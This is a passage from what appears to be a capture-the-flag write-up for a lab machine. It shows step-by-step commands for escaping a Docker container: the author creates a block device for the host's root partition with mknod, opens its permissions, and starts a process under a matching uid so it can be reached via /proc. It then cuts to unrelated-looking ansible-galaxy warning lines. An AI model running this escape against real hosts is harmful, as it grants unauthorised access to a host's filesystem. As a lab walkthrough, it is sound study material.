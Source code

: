 ```
  └─ubuntu--vg-swap       252:1    0  1020M  0 lvm  [SWAP]

```

The device I want to target is the LVM partition, 252:0. I’ll use `mknod` to make this device:

```

root@25d42bb4575d:~# mknod /dev/rootfs b 252 0

```

I’ll want to open up the permissions:

```

root@25d42bb4575d:~# chmod 777 /dev/rootfs    
root@25d42bb4575d:~# ls -l /dev/rootfs
brwxrwxrwx 1 root root 252, 0 May 13 22:04 /dev/rootfs

```

#### Create User and Process

If I want to be able to access this via `/proc`, I need a process started as the same userid as the shell I have on the host:

```

dev_acc@intuition:~$ id
uid=1001(dev_acc) gid=1001(dev_acc) groups=1001(dev_acc)

```

In the container:

```

root@25d42bb4575d:~# useradd -u 1001 oxdf

```

Now I need to start a process that will run under this uid:

```

root@25d42bb4575d:~# su oxdf -c 'sleep 10000' &
[1] 3038
root@25d42bb4575d:~# ps auxww | grep oxdf
root        3038  0.0  0.1  12336  4480 pts/1    S    22:06   0:00 su oxdf -c sleep 10000
oxdf        3039  0.0  0.0   2892  1536 ?        Ss   22:06   0:00 sh -c sleep 10000
oxdf        3040  0.0  0.0   8372  1920 ?        S    22:06   0:00 sleep 10000

```

The PIDs of 3038, 3039, and 3040 won’t be the same in the host, but the processes will be there:

```

dev_acc@intuition:~$ ps auxww | grep sleep
root        5210  0.0  0.1  12336  4480 ?        S    22:06   0:00 su oxdf -c sleep 10000
dev_acc     5211  0.0  0.0   2892  1536 ?        Ss   22:06   0:00 sh -c sleep 10000
dev_acc     5212  0.0  0.0   8372  1920 ?        S    22:06   0:00 sleep 10000

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.